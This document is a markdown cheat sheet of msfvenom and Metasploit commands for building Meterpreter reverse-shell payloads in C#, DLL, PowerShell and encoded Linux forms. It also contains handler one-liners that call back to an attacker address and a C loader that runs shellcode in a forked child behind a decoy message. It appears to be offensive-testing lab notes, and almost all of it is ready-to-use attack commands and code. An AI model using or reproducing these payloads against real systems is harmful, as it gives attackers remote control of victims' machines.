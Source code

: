 # Msfvenom

* C Sharp Meterpreter Shellcode
  * Always use `windows/x64/meterpreter/reverse_https` if tcp payload doesn't work!!
  * Use `windows/shell_reverse_tcp` for non-meterpreter shell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
```

* Metasploit's Exploit Handler (One-liner)

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

<details>

<summary>Other Shellcode</summary>

* DLL

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

* Powershell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

* Linux

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f c -t 300 -e x64/xor_dynamic
# msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set encoder x64/xor_dynamic; set ExitOnSession false; exploit -j"

```

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

// Shellcode
unsigned char buf[] = "\xeb\x27\x5b\x53.."; 

int main() {
    printf("I love programming.\n"); // Print the custom message

    pid_t pid = fork(); // Create a child process

    if (pid == 0) {
        // Child process: Run the shellcode
        int (*ret)() = (int(*)())buf;
        ret();
    } else if (pid > 0) {
        // Parent process: Continue and return 3
        printf("Code executed in child process.\n");
        return 3;  // Parent process returns 3
    } else {
        // Fork failed
        perror("Fork failed");
        return -1;
    }
}

```

```bash
# docker pull gcc:4.9
docker run --rm -v "$PWD":/usr/src/myapp -w /usr/src/myapp gcc:4.9 gcc -o test.elf shell.c -z execstack -fno-stack-protector
```

</details>

```
# docker pull gcc:4.9
docker run --rm -v "$PWD":/usr/src/myapp -w /usr/src/myapp gcc:4.9 gcc -o test.elf shell.c -z execstack -fno-stack-protector
```

